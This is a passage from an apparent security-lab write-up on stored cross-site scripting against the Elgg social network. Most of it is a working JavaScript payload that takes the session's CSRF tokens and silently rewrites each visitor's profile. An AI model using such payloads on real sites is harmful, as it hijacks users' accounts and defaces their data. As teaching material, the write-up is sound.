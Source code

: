 ```
&guid=59
```

Okay so if we want to change the *about me* part of the profile of our victims we need to send a POST request like the above and change the about me part to whatever we like; further we need to know the following about our user:
* `name`
* `guid`

these our available to us with the help of  `elgg.session.user` object;This is our scrip for this task:

```
<script>
    window.onload = function () {
        let userName = elgg.session.user.name;
        let guid = elgg.session.user.guid;
        let ts = elgg.security.token.__elgg_ts;
        let token = elgg.security.token.__elgg_token;
        let aboutMe = "** You've been Ha*ked!! **";
        
        let content = `__elgg_token=${token}
        &__elgg_ts=${ts}
        &name=${userName}
        &description=<p>${aboutMe}</p>
        &accesslevel[description]=2
        &briefdescription=
        &accesslevel[briefdescription]=2
        &location=
        &accesslevel[location]=2
        &interests=
        &accesslevel[interests]=2
        &skills=
        &accesslevel[skills]=2
        &contactemail=
        &accesslevel[contactemail]=2
        &phone=
        &accesslevel[phone]=2
        &mobile=
        &accesslevel[mobile]=2
        &website=
        &accesslevel[website]=2&
        twitter=
        &accesslevel[twitter]=2
        &guid=${guid}`;

        let samyGuid = 59;
        let url = `/action/profile/edit`;
        if (guid != samyGuid) {
            var Ajax = null;
            Ajax = new XMLHttpRequest();
            Ajax.open('POST', url, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }

    }

</script>

```
